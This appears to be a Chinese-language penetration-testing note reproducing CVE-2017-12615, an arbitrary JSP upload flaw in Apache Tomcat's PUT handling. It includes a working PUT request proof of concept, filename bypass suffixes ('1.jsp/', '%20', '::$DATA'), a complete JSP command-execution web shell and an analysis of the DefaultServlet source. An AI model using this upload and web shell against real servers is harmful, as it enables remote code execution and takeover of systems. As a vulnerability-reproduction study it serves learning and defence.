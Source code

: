 ```yaml
---
title: CVE-2017-12615
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-26T02:29:13+08:00
categories: 
- 渗透测试
- 漏洞复现
- Tomcat
---
```


## CVE-2017-12615

漏洞影响版本：Apache Tomcat 7.0.0 - 7.0.79（windows）

漏洞原理：当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

利用条件：漏洞利用需要在 Windows 环境，且需要将 readonly 初始化参数由默认值设置为 false，经过实际测试，Tomcat 7.x 版本内 web.xml 配置文件内默认配置无 readonly 参数，需要手工添加，默认配置条件下不受此漏洞影响

### POC：

虽然readonly为false，但是对写入文件的名称仍然有一定限制,linux可以通过1.jsp/的形式绕过限制

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

![2017-12615](E:\笔记软件\笔记\渗透测试\vulhub-CVE复现\2017-12615.png)

成功利用漏洞

jspshell

```java
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
```

### 原理分析

漏洞原因是由于org.apache.catalina.servlets.DefaultServlet.java中readOnly设置为false造成

```java
/**
     * Read only flag. By default, it's set to true.
     */
    protected boolean readOnly = true;//由于下载的是8版本的源码，这里为true
```

jsp和jspx默认都由 org.apache.jasper.servlet.JspServlet处理(该类并没有处理PUT请求的方法仅处理后缀)，导致即使使用PUT也无法上传jsp和jspx文件，通过添加后缀来进入DefaultServlet的put逻辑处理上传的恶意文件造成漏洞，常见的三种后缀

```
1.jsp%20
1.jsp::$DATA
1.jsp/
```

查看该DefaultServelet中的PUT处理逻辑

```java
    @Override
    protected void doPut(HttpServletRequest req, HttpServletResponse resp)
        throws ServletException, IOException {

        if (readOnly) {
            sendNotAllowed(req, resp);
            return;
        }
    ........................
```

如果readOnly为true则直接返回error，因此需要设置为false

写入文件的操作位于FileDirContext.java 的 rebind 函数，使用1.jsp%20，1.jsp::$DATA两种方式能够写入文件是由于java.io. FileOutputStream底层C代码的处理，使用1.jsp/请求是由于java.io.File的特性造成的，在使用该方法时，末尾的斜杠会被过滤，具体代码

```
normalize(path, n, (prev == slash) ? i - 1 : i)
```

过滤掉/进行jsp文件的写入

### 参考链接

https://paper.seebug.org/399/

https://www.w3.org/Protocols/rfc2616/rfc2616-sec9.html